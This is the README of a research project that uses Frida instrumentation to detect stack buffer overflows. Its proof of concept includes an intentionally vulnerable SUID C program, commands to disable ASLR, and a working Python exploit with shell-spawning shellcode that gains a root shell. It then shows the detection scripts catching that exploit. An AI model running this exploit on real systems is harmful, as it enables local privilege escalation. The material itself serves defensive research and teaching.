









# retShield
Defending from stack buffer overflow through dynamic instrumentation


## Table of Contents

<details>
<summary>PoC</summary>

* [`Test machine`](#test-machine)
* [`Target`](#target)
* [`Compilation`](#compilation)
* [`ASLR deactivation`](#aslr-deactivation)
* [`Exploitation`](#exploitation)
* [`Return address protection`](#return-address-protection)

</details>

<details>
<summary>Stack buffer overflow exploitation</summary>

* [`Concept`](#stack-buffer-overflow-exploitation)

</details>

<details>
<summary>Dynamic Binary Instrumentation (DBI) and Frida</summary>

* [`Concept`](#dynamic-binary-instrumentation-and-frida)
* [`Stalker`](#stalker)
* [`Interceptor`](#interceptor)

</details>

<details>
<summary>Defending from stack buffer overflow through dynamic instrumentation</summary>

* [`Following the execution flow`](#following-the-execution-flow)
* [`Hooking the dangerous functions`](#hooking-the-dangerous-functions)

</details>


## Description

This project has been developed to explore the possibilities of *Dynamic Binary Instrymentation* (DBI) to be used for protecting against buffer overflow exploitation. In particular, this first version is focused on stack-based buffer overflows.  

The DBI tool used is the [Frida](https://frida.re/) framework.

<br>[⬆ top](#table-of-contents)

## PoC

### Test machine

The PoC was tested on a Virtualbox machine running Ubuntu 18.04.1, 5.4.0-107-generic, x86_64.

<br>[⬆ top](#table-of-contents)

### Target

The target for this PoC is a vulnerable program that uses the `strcpy` function from the `libc` library. 

```c
/* poc/target/prog.c */
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>


void usage(char* progName) {
    printf("Usage: %s <string>\n", progName);
    exit(0);
}

void processData(char *data) {
    char buffer[64];    
    strcpy(buffer, data);    	// <---------------- BoF!
    printf("Data processed: %s\n", buffer);
}

int main(int argc, char** argv) {    

    if(argc < 2) {
        usage(argv[0]);
    }

    printf("[*] Initializing...\n");
    sleep(5);
    printf("[*] Processing data...\n");

    char buffer[64];
    char* input = argv[1];
    processData(input);
    printf("Bye\n");
    return 0;
}
```

<br>[⬆ top](#table-of-contents)

### Compilation

The `prog.c` file must be compiled in a special way, in order to disable protections that prevent code execution on the stack and other checks. Thus, the `-fno-stack-protector -D_FORTIFY_SOURCE=0 -z norelro -z execstack` flags are required.

Moreover, for this PoC, the target file was compiled for the x86 architecture, and was assigned root ownership as well as the SUID bit

A script was provided to do all the tasks above:

```
target$ ./compile_target.sh prog.c EXE 32
[*] Compiling target without protections...
	 gcc -g -fno-stack-protector -D_FORTIFY_SOURCE=0 -z norelro -z execstack -m32 -o prog_32b prog.c
    Target compiled
[*] Assigning ownership and permissions...
    Target ready
```

You can use  `make` or whatever you like :)

<br>[⬆ top](#table-of-contents)

### ASLR deactivation

As for this PoC exploitation depends on fix addresses, namely for the `libc`, ASLR needs to be disable for the exploit to work. Otherwise, the result will be a segmentation fault. 

ASLR can be disables with the command `echo 0 > /proc/sys/kernel/randomize_va_space`. You can simply call the script `disable_protections.sh` as below:

```
poc$ sudo exploit/disable_protections.sh 
ASLR status:
/proc/sys/kernel/randomize_va_space
2

[*] Disabling ASLR... 
    Done

ASLR status:
/proc/sys/kernel/randomize_va_space
0
Bye!
```

ASLR can be enabled again with the command `echo 2 > /proc/sys/kernel/randomize_va_space`.

<br>[⬆ top](#table-of-contents)

### Exploitation

It is recommended to test this in a virtual machine dedicated to this kind of tests, just to avoid affecting the security of your system.

#### The concept

The exploitations consists in redirecting the execution flow to the stack, and to the shellcode. The trick to do this starts by overwriting the return address of the `processData` function, which is replaced by any address containing the `jmp esp` instruction.  Back in the stack, the stack pointer is decreased 48 bytes, and then a new `jmp esp`  instruction, injected through the overflow, is executed to jump to the top of the stack again, where the shellcode will eventually be executed. 

The shellcode has been taken from [shell-storm.org](http://shell-storm.org/shellcode/files/shellcode-399.php), provided by Yeongjin Jang aka [blue9057](https://twitter.com/blue9057). It version used here just contains a slight modification.





#### The exploit

The code of the exploit is shown below. 

```python
#!/usr/bin/python3


import sys
import struct


padding_char = b"A"
word_size = 4

# shellcode:        http://shell-storm.org/shellcode/files/shellcode-399.php
#                   Yeongjin Jang@blue9057      [https://twitter.com/blue9057]
shellcode_399_variant = b"\x6a\x31\x58\x31\xd2\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"


if __name__ == "__main__":
    shellcode = shellcode_399_variant
    shellcode_length = len(shellcode)        
    offset = 76

    ins_jmp_backwards = b"\x83\xec\x30"  # 83EC30
    ins_jmp_stack = b"\xff\xe4"

    addr_ret = 0xf7ddf000 + 0x1778ab # 0xf7f568ab
    ret = struct.pack("I", addr_ret)
    
    backjump = 48   # 0x30
    padding = padding_char * (offset - backjump)
    nopeslide_length = backjump - shellcode_length
    nopeslide = b"\x90" * nopeslide_length
    payload = padding
    payload += nopeslide
    payload += shellcode
    
    payload += ret
    payload += ins_jmp_backwards
    payload += ins_jmp_stack
    
    sys.stdout.buffer.write(payload)
```


#### Adjusting the exploit parameters

In order to make this exploit work on your machine you need to figure out the `addr_ret` variable, which is the address to return from the `processData` function. This  `addr_ret` variable is the base address of the `libc` library and the offset to a `jmp esp` instruction within the `libc` library.

The base address of the `libc` library can be obtained e.g. with gdb as follows:

```
poc$ gdb target/prog_32b
(...)
gef➤  set args hola
gef➤  b* main
Breakpoint 1 at 0x62e: file prog.c, line 18.
gef➤  r
(...)
gef➤  info proc map
process 2430
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	0x56555000 0x56556000     0x1000        0x0 /home/test/Master/TFM/poc/target/prog_32b
	0x56556000 0x56557000     0x1000        0x0 /home/test/Master/TFM/poc/target/prog_32b
	0xf7ddf000 0xf7fb1000   0x1d2000        0x0 /lib32/libc-2.27.so			<----------------------- base address: 0xf7ddf000
	0xf7fb1000 0xf7fb2000     0x1000   0x1d2000 /lib32/libc-2.27.so
	0xf7fb2000 0xf7fb4000     0x2000   0x1d2000 /lib32/libc-2.27.so
	0xf7fb4000 0xf7fb5000     0x1000   0x1d4000 /lib32/libc-2.27.so
	0xf7fb5000 0xf7fb8000     0x3000        0x0 
	0xf7fd0000 0xf7fd2000     0x2000        0x0 
	0xf7fd2000 0xf7fd5000     0x3000        0x0 [vvar]
	0xf7fd5000 0xf7fd6000     0x1000        0x0 [vdso]
	0xf7fd6000 0xf7ffc000    0x26000        0x0 /lib32/ld-2.27.so
	0xf7ffc000 0xf7ffd000     0x1000    0x25000 /lib32/ld-2.27.so
	0xf7ffd000 0xf7ffe000     0x1000    0x26000 /lib32/ld-2.27.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]

```

As it can be observed above, the `libc` library is allocated in memory starting from the address `0xf7ddf000`. Next, we need to determine the offset of a `jmp esp` instruction. This can be done, for instance, with `objdump` as follows:

The operation code for the   `jmp esp`  instruction is `ff e4`. Thus, we can filter the instructions by this value:

```
poc$ objdump -D /lib32/libc-2.27.so | grep "ff e4" 
  1778ab:	ff e4                	jmp    *%esp
  1835fb:	ff e4                	jmp    *%esp
  18360b:	ff a4 a3 fb ff e4 a3 	jmp    *-0x5c1b0005(%ebx,%eiz,4)
  183aeb:	ff e4                	jmp    *%esp
  183afb:	ff a4 a9 fb ff e4 a9 	jmp    *-0x561b0005(%ecx,%ebp,4)
  183d6f:	ff e4                	jmp    *%esp
  183f97:	ff e4                	jmp    *%esp
  (...)
```

We can simply grab the first one: `0x1778ab`. At this point, we already know the value for the `addr_ret` variable.

```python
addr_ret = 0xf7ddf000 + 0x1778ab  # 0xf7f568ab
```


#### Launching the exploit

```
poc$ sudo exploit/disable_protections.sh 
ASLR status:
/proc/sys/kernel/randomize_va_space
2

[*] Disabling ASLR... 
    Done

ASLR status:
/proc/sys/kernel/randomize_va_space
0
Bye!
poc$ python3 exploit/exploit.py > /tmp/exp
poc$ whoami
test
poc$ target/prog_32b $(cat /tmp/exp)
[*] Initializing...
[*] Processing data...
Data processed: AAAAAAAAAAAAAAAAAAAAAAAAAAAA�������������j1X1�̀�É�jFX̀�
                                                                     Rhn/shh//bi����̀�h����0��
# whoami
root
# 


```


##### Demo

By using the Frida Stalker, it is possible to see the instructions executed by the target. Namely, how the execution flow is redirected until the shellcode.


### Return address protection


#### Frida Stalker based method

0. Configure: choose whether you prefer to limite the scope where to apply the algorithm or not:

   * Without restricting the scope:

     ```javascript
     // ---------------------------- Configuration ----------------------------
     var targetModuleName = "prog_32b";
     var targetModule = Process.findModuleByName(targetModuleName);
     var targetModuleBaseAddr = ptr(targetModule.base);
     var startAddr;
     var endAddr;
     ```

   * Restrinting the scope

     ```javascript
     // ---------------------------- Configuration ----------------------------
     var targetModuleName = "prog_32b";
     var targetModule = Process.findModuleByName(targetModuleName);
     var targetModuleBaseAddr = ptr(targetModule.base);
     // Apply the algorithm between addresses: base+0x5BD and base+0x6CD
     var startOffset = 0x5BD;
     var endOffset = 0x6CD; 
     var startAddr = targetModuleBaseAddr.add(startOffset);
     var endAddr = targetModuleBaseAddr.add(endOffset);
     ```

1. Run the target program, passing the exploit:

   ```
   poc$ target/prog_32b $(cat /tmp/exp)
   [*] Initializing...
   
   ```

2. Launch Frida to attach to the target process, giving the script `retShield_stalk/retShield_stalker.js`

   a) with the Python launcher `launcher.py`:

   ```
   poc$ sudo python3 launcher.py $(pidof prog_32b) retShield_stalk/retShield_stalker.js
   [*] Target module 'prog_32b' loaded at address 0x56555000
   Thread ID: 2925
   [*] Initializing thread [2925]
   Press the enter key for detaching
   
   
   										[thread 2925] 0xf7fd5b59 : pop ebp
   										[thread 2925] 0xf7fd5b5a : pop edx
   										[thread 2925] 0xf7fd5b5b : pop ecx
   										[thread 2925] 0xf7fd5b5c : ret
   										[thread 2925] 0xf7e9cfa3 : cmp eax, 0xfffff000
   										(...)
   										[thread 2925] 0xf7e2fd89 : ret
   										[thread 2925] 0x56555625 : add esp, 0x10
   										[thread 2925] 0x56555628 : nop
   										[thread 2925] 0x56555629 : mov ebx, dword ptr [ebp - 4]
   										[thread 2925] 0x5655562c : leave
   										[thread 2925] 0x5655562d : ret
   ret,0x5655562d,0xf7f568ab,1
   [!] Return address modified!
   return from function at 0x565555ee : 
   	(callId=0)  
   	(ret point=0x5655562d)  
   	(esp=0xffffcddc, @ret=0xf7f568ab, ref @ret=0x565556a9)
   exit function address: 0xf7e0f160
   Calling exit. Mark thread 2925 to be unfollowed
   Unfollowing thread 2925
   
   ```

   

   b) with the `frida` command:

   ```
   poc$ cd retShield_stalk/
   poc/retShield_stalk$ ./run_retShield_stalker.sh 
        ____
       / _  |   Frida 12.7.11 - A world-class dynamic instrumentation toolkit
      | (_| |
       > _  |   Commands:
      /_/ |_|       help      -> Displays the help system
      . . . .       object?   -> Display information about 'object'
      . . . .       exit/quit -> Exit
      . . . .
      . . . .   More info at https://www.frida.re/docs/home/
   Attaching...
   [*] Target module 'prog_32b' loaded at address 0x56555000
   Thread ID: 3013
   [*] Initializing thread [3013]
   
   [Local::prog_32b]->						[thread 3013] 0xf7fd5b59 : pop ebp
   										[thread 3013] 0xf7fd5b5a : pop edx
   										[thread 3013] 0xf7fd5b5b : pop ecx
   										[thread 3013] 0xf7fd5b5c : ret
   										[thread 3013] 0xf7e9cfa3 : cmp eax, 0xfffff000
   										(...)
   										[thread 3013] 0xf7e2fd89 : ret
   										[thread 3013] 0x56555625 : add esp, 0x10
   										[thread 3013] 0x56555628 : nop
   										[thread 3013] 0x56555629 : mov ebx, dword ptr [ebp - 4]
   										[thread 3013] 0x5655562c : leave
   										[thread 3013] 0x5655562d : ret
   ret,0x5655562d,0xf7f568ab,1
   [!] Return address modified!
   return from function at 0x565555ee : 
   	(callId=0)  
   	(ret point=0x5655562d)  
   	(esp=0xffffcddc, @ret=0xf7f568ab, ref @ret=0x565556a9)
   exit function address: 0xf7e0f160
   Calling exit. Mark thread 3013 to be unfollowed
   Unfollowing thread 3013
   Process terminated
   
   Thank you for using Frida!
   									
   ```

   

###### Demo




##### Frida Interceptor based method


1. Run the target program, passing the exploit:

   ```
   poc$ target/prog_32b $(cat /tmp/exp)
   [*] Initializing...
   
   ```

2. Launch Frida to attach to the target process, giving the script `retShield_hook/retShield_hooking.js`

   a) with the Python launcher `launcher.py`:

   ```
   poc$ sudo python3 launcher.py $(pidof prog_32b) retShield_hook/retShield_hooking.js
   [*] Setting hooks
   [+] Done!
   Press the enter key for detaching
   
   
   [=>] strcpy
   args[0]                            : 0xffffcd90
   args[1]                            : 0xffffd0f3
   *args[1]                           : AAAAAAAAAAAAAAAAAAAAAAAAAAAA�������������j1X1�̀�É�jFX̀�
                                                                                             Rhn/shh//bi����̀�h����0��
   esp                                : 0xffffcd7c
   ebp                                : 0xffffcdd8
   bufferAddr                         : 0xffffcd90
   &callerRetAddr                     : 0xffffcddc
   callerRetAddr                      : 0x565556a9
   
   View of Stack: 
   ffffcd7c  0f 56 55 56 90 cd ff ff f3 d0 ff ff e9 1c e5 f7  .VUV............
   ffffcd8c  fa 55 55 56 16 00 00 00 00 40 fb f7 d8 cd ff ff  .UUV.....@......
   ffffcd9c  eb 66 e4 f7 80 4d fb f7 0a 00 00 00 16 00 00 00  .f...M..........
   ffffcdac  00 00 00 00 00 d0 ff f7 03 00 00 00 80 4d fb f7  .............M..
   ffffcdbc  84 2a ad fb 84 c9 ff f7 88 c9 ff f7 6b 65 e4 f7  .*..........ke..
   ffffcdcc  30 6a 55 56 70 ce ff ff 30 6a 55 56 58 ce ff ff  0jUVp...0jUVX...
   ffffcddc  a9 56 55 56 f3 d0 ff ff 0b ce ff ff 01 00 00 00  .VUV............
   ffffcdec  46 56 55 56 00 00 00 00 00 00 c3 00 01 00 00 00  FVUV............
   
    * strcpy * 
   
   esp                                : 0xffffcd7c
   
   View of Stack: 
   ffffcd7c  0f 56 55 56 90 cd ff ff f3 d0 ff ff e9 1c e5 f7  .VUV............
   ffffcd8c  fa 55 55 56 41 41 41 41 41 41 41 41 41 41 41 41  .UUVAAAAAAAAAAAA
   ffffcd9c  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
   ffffcdac  90 90 90 90 90 90 90 90 90 90 90 90 90 6a 31 58  .............j1X
   ffffcdbc  31 d2 cd 80 89 c3 89 c1 6a 46 58 cd 80 b0 0b 52  1.......jFX....R
   ffffcdcc  68 6e 2f 73 68 68 2f 2f 62 69 89 e3 89 d1 cd 80  hn/shh//bi......
   ffffcddc  ab 68 f5 f7 83 ec 30 ff e4 00 ff ff 01 00 00 00  .h....0.........
   ffffcdec  46 56 55 56 00 00 00 00 00 00 c3 00 01 00 00 00  FVUV............
   
   
   original caller return address     : 0x565556a9
   caller return address before 'ret' : 0xf7f568ab
   
   /!\ Stack buffer overflow detected! Aborting program...
   
   ```

   

   b) with the `frida` command:

   ```
   poc$ cd retShield_hook/
   poc/retShield_hook$ ./run_retShield_hooking.sh 
        ____
       / _  |   Frida 12.7.11 - A world-class dynamic instrumentation toolkit
      | (_| |
       > _  |   Commands:
      /_/ |_|       help      -> Displays the help system
      . . . .       object?   -> Display information about 'object'
      . . . .       exit/quit -> Exit
      . . . .
      . . . .   More info at https://www.frida.re/docs/home/
   Attaching...
   [*] Setting hooks
   [+] Done!
   [Local::prog_32b]-> [=>] strcpy
   args[0]                            : 0xffffcd90
   args[1]                            : 0xffffd0f3
   *args[1]                           : AAAAAAAAAAAAAAAAAAAAAAAAAAAA�������������j1X1�̀�É�jFX̀�
                                                                                             Rhn/shh//bi����̀�h����0��
   esp                                : 0xffffcd7c
   ebp                                : 0xffffcdd8
   bufferAddr                         : 0xffffcd90
   &callerRetAddr                     : 0xffffcddc
   callerRetAddr                      : 0x565556a9
   
   View of Stack: 
   ffffcd7c  0f 56 55 56 90 cd ff ff f3 d0 ff ff e9 1c e5 f7  .VUV............
   ffffcd8c  fa 55 55 56 16 00 00 00 00 40 fb f7 d8 cd ff ff  .UUV.....@......
   ffffcd9c  eb 66 e4 f7 80 4d fb f7 0a 00 00 00 16 00 00 00  .f...M..........
   ffffcdac  00 00 00 00 00 d0 ff f7 03 00 00 00 80 4d fb f7  .............M..
   ffffcdbc  84 2a ad fb 84 c9 ff f7 88 c9 ff f7 6b 65 e4 f7  .*..........ke..
   ffffcdcc  30 6a 55 56 70 ce ff ff 30 6a 55 56 58 ce ff ff  0jUVp...0jUVX...
   ffffcddc  a9 56 55 56 f3 d0 ff ff 0b ce ff ff 01 00 00 00  .VUV............
   ffffcdec  46 56 55 56 00 00 00 00 00 00 c3 00 01 00 00 00  FVUV............
   
    * strcpy * 
   
   esp                                : 0xffffcd7c
   
   View of Stack: 
   ffffcd7c  0f 56 55 56 90 cd ff ff f3 d0 ff ff e9 1c e5 f7  .VUV............
   ffffcd8c  fa 55 55 56 41 41 41 41 41 41 41 41 41 41 41 41  .UUVAAAAAAAAAAAA
   ffffcd9c  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
   ffffcdac  90 90 90 90 90 90 90 90 90 90 90 90 90 6a 31 58  .............j1X
   ffffcdbc  31 d2 cd 80 89 c3 89 c1 6a 46 58 cd 80 b0 0b 52  1.......jFX....R
   ffffcdcc  68 6e 2f 73 68 68 2f 2f 62 69 89 e3 89 d1 cd 80  hn/shh//bi......
   ffffcddc  ab 68 f5 f7 83 ec 30 ff e4 00 ff ff 01 00 00 00  .h....0.........
   ffffcdec  46 56 55 56 00 00 00 00 00 00 c3 00 01 00 00 00  FVUV............
   
   
   original caller return address     : 0x565556a9
   caller return address before 'ret' : 0xf7f568ab
   
   /!\ Stack buffer overflow detected! Aborting program...
   Process terminated
   
   Thank you for using Frida!
   
   									
   ```

   

##### Demo


<br>[⬆ top](#table-of-contents)

## Stack buffer overflow exploitation

The stack buffer overflow problem lies on a loss of control on the number of bytes being copied from one buffer A to another B, when the two buffers are at the stack. Thus, if the buffer B has a fixed size, and no control exists on the number of bytes being written in B, it can be overflowed.

In the picture below, the execution flow has just returned from executing the `strcpy` function. The buffer B started on the address `0xffffcd60` and 64 bytes had been allocated for it. This space has been overflowed, overwriting the return address for the function that called the `strcpy` function. As a result, the execution flow has been redirected to the address `0xf7f5674b`. This opens the door to the execution of arbitrary code. 




<br>[⬆ top](#table-of-contents)

## Dynamic Binary Instrumentation and Frida

*Dynamic binary instrumentation* (DBI) can be defined as [the process of modifying the instructions of a binary program while it executes, through the injection of code](https://it-qa.com/what-is-dynamic-binary-instrumentation/). 

[Frida](https://frida.re/) is an open-source framework for dynamic instrumentation that allows to control a program in execution. Frida is widely used by reverse engineers
and security researchers, as it is easy to use, multi-architecture, powerful and offers infinite possibilities to create more specific tools on top of it.

<br>[⬆ top](#table-of-contents)

### Stalker

[Stalker](https://frida.re/docs/stalker/) is the tracing engine of the Frida framework. Through the [Stalker API](https://frida.re/docs/javascript-api/#stalker), It is possible to follow the threads of a running process and capture every instruction that is executed, and even modify the code or the memory dynamically.

The way it works is by copying the instructions to be executed by a thread, combining them other auxiliary instructions that allow to obtain details about what instructions are going to be executed. In this way, the original instructions are not modified, which should about problems with anti-tampering  protections

[Picture source](https://medium.com/@oleavr/anatomy-of-a-code-tracer-b081aadb0df8)



<br>[⬆ top](#table-of-contents)

### Interceptor

The Frida [Interceptor](https://frida.re/docs/javascript-api/#interceptor) object allows to set hooks on native functions and define callbacks with actions to perform before and after the actual function is executed.

Another possibility is to replace a function with a custom implementation. Moreover, it is possible to detach hooks at a specific moment, which can be useful to bypass protections. Hooks are set through *trampolines*, i.e. the first instructions of the target function are overwritten by a jump to another memory area, where instructions have been injected, followed by a jump back to the original function.
This mechanism is illustrated in the picture below, the instructions of the function without being hooked are shown in the upper part, the instructions of the function being hooked are at the bottom.




<br>[⬆ top](#table-of-contents)

